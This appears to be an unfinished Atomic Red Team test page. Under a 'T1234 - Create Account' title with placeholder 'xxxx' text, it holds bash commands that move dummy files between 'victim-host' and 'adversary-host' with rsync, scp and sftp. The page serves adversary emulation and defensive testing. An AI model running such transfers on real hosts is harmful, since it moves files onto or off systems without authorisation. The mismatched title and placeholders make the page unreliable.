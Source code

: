 # T1234 - Create Account
MITRE ATT&CK Technique: [T1234](https://attack.mitre.org/wiki/Technique/T1234)

## Atomic Tests
    
### Test #1 - xxxx
xxxx

**Supported Platforms:** linux, macos


#### Run it with `bash`!
```
### TODO: Not sure how to handle commands that need to be run on multiple systems

# Adversary System Configuration
# Ensure SSH access has been configured for an adversary account
echo "This file transferred by scp" > /tmp/adversary-scp
echo "This file transferred by sftp" > /tmp/adversary-sftp
mkdir /tmp/adversary-rsync
cd /tmp/adversary-rsync
touch a b c d e f g

# Victim System Configuration
# Ensure SSH access has been configured for a victim account
# Ensure write access for victim account to this directory
mkdir /tmp/victim-files
cd /tmp/victim-files

# Push files to victim using rsync
rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

# Pull files from adversary using rsync
rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

# Push files to victim using scp
scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

# Pull file from adversary using scp
scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

# Push files to victim using sftp
sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

# Pull file from adversary using sftp
sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file

```
